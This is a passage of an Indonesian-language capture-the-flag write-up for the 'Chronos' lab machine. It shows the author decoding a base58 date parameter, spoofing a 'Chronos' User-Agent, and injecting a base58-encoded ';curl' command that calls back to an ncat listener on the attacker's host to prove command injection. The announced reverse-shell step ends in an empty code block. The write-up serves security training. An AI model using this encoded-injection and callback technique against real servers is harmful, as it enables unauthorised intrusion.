 ## Escalate as www-data
PS: rada ribet.

Karna tadi, domain host berubah dan dibagian URL terlihat seperti query. saya mencoba untuk melihat source dari **http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ** menggunakan **curl** lagi.

```bash
arin@aoba ~/Desktop/boot2roots/hmv/chronos $ curl http://chronos.local:8000/date\?format\=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
Permission Denied%

```
Loh, permission denied?. saya coba liat lagi code javascript yang menurut saya terlihat seperti sudah diobfuscate. ada code seperti ini.

```json
'User-Agent','status','1DYOODT','400909Mbbcfr','Chronos','2QRBPWS','getElementById','innerHTML','date'
```
Dari kedua ini, saya menyimpulkan bahwa format ini adalah tanggal yang dibuat menjadi cipher text.
```html
<body onload="loadDoc()">

  <div id="wrapper">
    <div class="future-cop">
      <h3 class="future">Chronos - Date & Time</h3>
      <h1 class="cop">
        <p id="date"></p>
      </h1>
    </div>
  </div>
  <script>
```
Saya ke <https://dcode.fr/> mencoba untuk mengindentifikasi bentuk cipher ini. ternyata **base-58**. saya coba **curl** (apa sih ga tau nama istilahnya hehe) dengan mengoverwrite **User-Agent: Chronos** seperti yang ada di bagian JS yang diobfuscate tadi.
```bash
arin@aoba ~/Desktop/boot2roots/hmv/chronos $ curl http://chronos.local:8000/date\?format\=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL -H "User-Agent: Chronos"
Today is Thursday, September 16, 2021 08:37:10.

```
Benerkan tanggal. Ok sampai sini saya berfikir bagaimana jika reverse shell diencrypt dengan base-58? tapi saya test dulu.
```bash
;curl http://192.168.56.1:2004
-> uXN49Jdw8oBXUxPfRopqnHUK4jLyKTxw8o4Bci6KVQ
---
arin@aoba ~/Desktop/boot2roots/hmv/chronos $ curl http://chronos.local:8000/date\?format\=uXN49Jdw8oBXUxPfRopqnHUK4jLyKTxw8o4Bci6KVQ -H "User-Agent: Chronos"
---
arin@aoba ~ $ ncat -nvlp 2004
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::2004
Ncat: Listening on 0.0.0.0:2004
Ncat: Connection from 192.168.56.108.
Ncat: Connection from 192.168.56.108:33704.
GET / HTTP/1.1
Host: 192.168.56.1:2004
User-Agent: curl/7.58.0
Accept: */*

```
OK REVERSE SHELL, GET IT.
```bash
```